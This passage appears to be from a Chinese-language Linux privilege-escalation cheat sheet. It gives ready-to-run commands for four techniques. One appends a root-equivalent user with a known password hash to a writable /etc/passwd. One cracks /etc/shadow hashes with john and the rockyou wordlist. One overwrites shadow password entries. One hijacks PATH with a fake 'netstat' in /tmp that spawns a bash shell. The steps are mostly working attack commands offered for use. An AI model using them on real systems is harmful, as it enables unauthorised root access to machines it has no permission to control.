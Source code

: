 ### /etc/passwd 写入提权

```
发现 /etc/passwd 文件可以写入
可以追加一个用户和密码到/etc/passwd文件末尾，通过切换用户拿到root权限

1、生成自定义的新密码
	mkpasswd -m sha-512
	密码：123456
	或
	openssl passwd -1 123456
		$6$CIO00Exyh4VYh7i.$xBQ6lbLlk9k92BnoQXrEzFx2clt7mw4KL3Z/dbFhWpzRQvwNollh.KZAehNRmuYjg8bxwrh2OqgyyXoWhUZKg.

2、拼接字符test:$6$CIO00Exyh4VYh7i.$xBQ6lbLlk9k92BnoQXrEzFx2clt7mw4KL3Z/dbFhWpzRQvwNollh.KZAehNRmuYjg8bxwrh2OqgyyXoWhUZKg./:0:0:root:/root:/bin/bash

3、传入passwd文件
echo 'test:$6$CIO00Exyh4VYh7i.$xBQ6lbLlk9k92BnoQXrEzFx2clt7mw4KL3Z/dbFhWpzRQvwNollh.KZAehNRmuYjg8bxwrh2OqgyyXoWhUZKg./:0:0:root:/root:/bin/bash' >> /etc/passwd

4、登录
ssh test@192.168.56.999
```

### /etc/shadow 提权

#### 读取破解

```
当文件可读时，可以查看用户的密文密码

1、根据密码文开头部分可以判断加密算法：
	$6 : sha 512
2、使用工具爆破密文
	sudo john root-shadow.txt --wordlist=/usr/share/wordlists/rockyou.txt
3、登录
```
#### 写入提权
```
当文件写入时，可以替换高级用户的密文密码实现提权

1、生成新密文密码
	mkpasswd -m sha-512
2、将密文写入shadow文件
3、登录
```

## 6.15、环境变量劫持提权

1、创建同名命令，并将想要执行的命令写入
```
cd tmp
touch netstat
echo "/bin/bash">netstat
```
2、对该文件赋予权限，使其可执行
```
chmod 777 netstat
```
3、修改环境变量
```
把/tmp目录加到环境变量最靠前的位置
export PATH=/tmp:$PATH

```